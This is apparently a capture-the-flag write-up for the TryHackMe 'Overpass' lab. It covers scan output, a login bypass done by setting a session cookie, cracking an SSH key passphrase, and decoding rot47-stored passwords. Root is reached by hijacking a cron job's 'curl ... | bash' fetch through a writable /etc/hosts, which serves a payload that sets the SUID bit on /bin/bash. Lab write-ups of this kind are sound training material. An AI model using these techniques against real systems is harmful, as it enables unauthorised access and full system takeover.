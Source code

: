 # Overpass

## Nmap Results
```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:96:85:98:d1:00:9c:14:63:d9:b0:34:75:b1:f9:57 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDLYC7Hj7oNzKiSsLVMdxw3VZFyoPeS/qKWID8x9IWY71z3FfPijiU7h9IPC+9C+kkHPiled/u3cVUVHHe7NS68fdN1+LipJxVRJ4o3IgiT8mZ7RPar6wpKVey6kubr8JAvZWLxIH6JNB16t66gjUt3AHVf2kmjn0y8cljJuWRCJRo9xpOjGtUtNJqSjJ8T0vGIxWTV/sWwAOZ0/TYQAqiBESX+GrLkXokkcBXlxj0NV+r5t+Oeu/QdKxh3x99T9VYnbgNPJdHX4YxCvaEwNQBwy46515eBYCE05TKA2rQP8VTZjrZAXh7aE0aICEnp6pow6KQUAZr/6vJtfsX+Amn3
|   256 53:75:fa:c0:65:da:dd:b1:e8:dd:40:b8:f6:82:39:24 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMyyGnzRvzTYZnN1N4EflyLfWvtDU0MN/L+O4GvqKqkwShe5DFEWeIMuzxjhE0AW+LH4uJUVdoC0985Gy3z9zQU=
|   256 1c:4a:da:1f:36:54:6d:a6:c6:17:00:27:2e:67:75:9c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINwiYH+1GSirMK5KY0d3m7Zfgsr/ff1CP6p14fPa7JOR
80/tcp open  http    syn-ack ttl 63 Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-favicon: Unknown favicon MD5: 0D4315E5A0B066CEFD5B216C8362564B
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Overpass
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Found source code for overpass program... `overpass.go`
Interesting thing it encrypts passwords with rot47 encryption on a local file on ~/.overpass

## Gobuster results 
`gobuster dir -x php,txt,html,css,js -u http://10.10.199.188/ -w /usr/share/wordlists/dirb/common.txt | tee gobuster.log`

```
/404.html (Status: 200)
/aboutus (Status: 301)
/admin (Status: 301)
/admin.html (Status: 200)
/cookie.js (Status: 200)
/css (Status: 301)
/downloads (Status: 301)
/img (Status: 301)
/index.html (Status: 301)
/index.html (Status: 301)
/login.js (Status: 200)
/main.css (Status: 200)
/main.js (Status: 200)
```

Interesting admin location
In admin if we change the SessionToken Cookie to anything over BurpSuite or Developer tools of the browser we can completely bypass the login check and get ourselves an ssh key
```
Since you keep forgetting your password, James, I've set up SSH keys for you.

If you forget the password for this, crack it yourself. I'm tired of fixing stuff for you.
Also, we really need to talk about this "Military Grade" encryption. - Paradox
```
Based on this we will have to crack the ssh key passphrase
Cracking James' passphrase with john the ripper 
`james13          (James)`

ssh in
todo.txt on ~ folder of james
```
To Do:
> Update Overpass' Encryption, Muirland has been complaining that it's not strong enough
> Write down my password somewhere on a sticky note so that I don't forget it.
  Wait, we make a password manager. Why don't I just use that?
> Test Overpass for macOS, it builds fine but I'm not sure it actually works
> Ask Paradox how he got the automated build script working and where the builds go.
  They're not updating on the website
```
Means we gonna have to get .overpass file to get the code
`,LQ?2>6QiQ$JDE6>Q[QA2DDQiQD2J5C2H?=J:?8A:4EFC6QN.`
Decrypted: `[{"name":"System","pass":"saydrawnlyingpicture"}]`
This could be either a root password or james local password on the machine     It's james password but james can't run sudo :(

crontab has a job running every minute `curl overpass.thm/downloads/src/buildscript.sh | bash`
Crontab file is only readable so we can't hange the url or the command..
/etc/hosts file is world writable though!

Changing the ip of the overpass.thm link to my tun0 ip > Then i make the path it is going to request ./downloads/src/buildscript.sh
inside to the buildscript.sh file
```
#!/bin/bash
chmod +s /bin/bash
```

This will download the file and pipe into bash and enable the suid bit on /bin/bash binary to help me escalate privileges
and after i run /bin/bash -p as james i get a new root shell!
## Question 1
#### Hack the machine and get the flag in user.txt
This answer will not be disclosed in this write-up


## Question 2
#### Escalate your privileges and get the flag in root.txt
This answer will not be disclosed in this write-up

# Bonus easter egg!
On /home/tryhackme folder there is a .overpass file `,LQ?2>6QiQ%CJw24<|6 $F3D4C:AE:@? r@56Q[QA2DDQiQ8>%sJ=QN.`
`[{"name":"TryHackMe Subscription Code","pass":"gmTDyl"}]`

